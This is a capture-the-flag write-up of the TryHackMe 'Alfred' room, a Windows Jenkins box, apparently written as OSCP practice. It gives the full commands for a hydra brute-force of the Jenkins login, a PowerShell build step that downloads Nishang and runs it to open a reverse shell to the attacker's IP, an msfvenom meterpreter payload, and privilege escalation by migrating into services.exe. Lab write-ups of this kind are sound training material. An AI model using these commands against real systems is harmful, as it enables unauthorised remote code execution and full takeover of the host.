 # Alfred TryHackMe Writeup #
## Preface ##
Since beginning to prepare for the OSCP I have periodically bounced back and forth on my study habits which is not condusive to a smooth study experience or successful exam attempt. As I begin my refresher before beginning much more serious work I have been working through rooms I exploited before, with Alfred being the first room I did that had me scratching my head the first time. I hope this writeup helps you in the event you get stuck as I did.

## Enumeration Phase ##

Since THM provide us with the knowledge of this being a Windows device running Jenkins, this gives us an advantage when it comes to enumeration. This knowledge narrows down the first wave of enumeration we will have to perform with the first being an nmap scan to determine the ports and services running.

This can be achieved by running the comman ```sudo nmap 10.10.69.30 -Pn -p 1-9999```  which gives us three live ports which are:  80/TCP HTTP, 3389/TCP MS-WBT-SERVER, 8080/TCP HTTP-PROXY ![Pasted image 20221028174616.png](images/Pasted image 20221028174616.png)
Now that we have this information lets visit the open http ports to see what is available to us starting with 10.10.69.30:80 which just gives us a page with an image of Bruce Wayne ![Pasted image 20221028175000.png](images/Pasted image 20221028175000.png) We will now visit 10.10.69.30:8080 where we are presented with a Jenkins login page ![Pasted image 20221028175054.png](images/Pasted image 20221028175054.png) 

## Initial Access ##

We do not have the password so we can do some searching for Jenkins default passwords where we can see 12345 is a common one, but upon trying it we are unsuccessful, but the Burp Proxy gives us some useful information ![Pasted image 20221028181138.png](Pasted image 20221028181138.png)
Now that we have a login value we need to craft  a hydra payload to run against the endpoint to bruteforce this login. When running hydra from your wordlist directory the command should look something like this:  `hydra -L fasttrack.txt -P fasttrack.txt 10.10.69.30 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"`  Which will take a little while to run against the endpoint so be patient. ![Pasted image 20221028183503.png](Pasted image 20221028183503.png) By utilizing Hydra we see a successful login with the username admin and the password admin ![Pasted image 20221028190601.png](Pasted image 20221028190601.png) Now that we have this login information we need to log in and be greeted with the Jenkins GUI where we see an existing project as well as the admin username showing the account we logged in under ![Pasted image 20221028190845.png](Pasted image 20221028190845.png)  We can see that the version is Jenkins 2.190.1 so we need to reseach the functionality of Jenkins to begin getting an idea of what it does which allows us to find ways to exploit it. Once you know the functionality of the service you can then move on to using the tool that THM recommends which is Nishang, specifically the Invoke-PowerShellTcp.ps1 script inside the Nishang package.

Jenkins allows us to execute Windows batch commands on the host running the service which will allow us to pull down the PowerShell script from our machine into the Windows device where it will be executed. Upon execution our listener should pick up giving us a reverse shell. 

Once you load into the project and go into the configuration you will then find a section named build that will allow you to input a command. This will be useful to achieve initial access once we spin up a simplehttp server using the python command `python -m http.server 8000`  This will create a reachable network location for our exploit to be pulled from. We will also want to initiate a listener on port 4444 using the command `rlwrap nc -lvnp 4444` Now that we have a listener running we can push the command to the device through Jenkins by building a project containing `powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.4.233:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.4.233 -Port 4444` ![Pasted image 20221028213828.png](Pasted image 20221028213828.png)

You will now have a reverse shell into the device where you can use `whoami` to verify your role and begin looking for the first flag.![Pasted image 20221028213936.png](Pasted image 20221028213936.png) ![Pasted image 20221028214328.png](Pasted image 20221028214328.png) 

## Privilege Escalation ##

Now that we have that initial shell we need to escalate our privileges to look for even more flags that may be under administrator accounts. This exercise has us using Metasploit and meterpreter in particular.

We will first need to create our payload using msfvenom which will be generated via the command `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.4.233 LPORT=4445 -f exe -o revshell.exe` ![Pasted image 20221028221202.png](Pasted image 20221028221202.png) Before we build the project we will first need to get Metasploit ready by starting the postgresql service via `service postgresql start` and then running the `msfconsole` command.

Once Metasploit is launch we first need to perform a few steps before we push the exploit and begin attempting to elevate our privileges.
1. `use exploit/multi/handler`
2. `set PAYLOAD windows/meterpreter/reverse_tcp`
3. `set LHOST 10.6.4.233`
4. `set LPORT 4445`
5. `run`
This has us listening for the exploit to be sent and allowing the payload to execute.![Pasted image 20221028221944.png](Pasted image 20221028221944.png) Now that we have this ready we will build our exploit command in Jenkins which will be `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.6.4.233:8000/revshell.exe','revshell.exe')"` ![Pasted image 20221028222440.png](Pasted image 20221028222440.png) Once we have pushed that command from Jenkins we will want to use the `Start-Process "revshell.exe"` command from the reverse shell in the project/workspace folder to initiate the exploit. ![Pasted image 20221028223121.png](Pasted image 20221028223121.png) This should now allow the Meterpreter shell to begin connecting, opening the pathway to privilege escalation. ![Pasted image 20221028223212.png](Pasted image 20221028223212.png) With the Meterpreter shell running it's pretty simple to elevate privileges by using the `getsystem` command which will utilize an impersonation token, preventing us from being able to explore for the root.txt flag. To truly escalate our privileges to root then we will need to look for any service that would be running under the `NT\AUTHORITY` token since this is a Windows device. A usual suspect for this would be `services.exe` so we will use `ps` to list all processes and look for the PID of `services.exe`. ![Pasted image 20221028224117.png](Pasted image 20221028224117.png)

Now that we have listed all of the running processes we can migrate to the `services.exe` process which is running as `NT\AUTHORITY` and search for the flag which can be done a few ways but the easiest way will be to utilize `search -f root.txt` to determine the location of the flag then using the `shell` command to launch the Windows terminal where you can use `cd C:\Windows\System32\config` to navigate to the directory housing the flag and finally use `more root.txt` to read the flag completing the exercise.![Pasted image 20221028224629.png](Pasted image 20221028224629.png) ![Pasted image 20221028224954.png](Pasted image 20221028224954.png) 
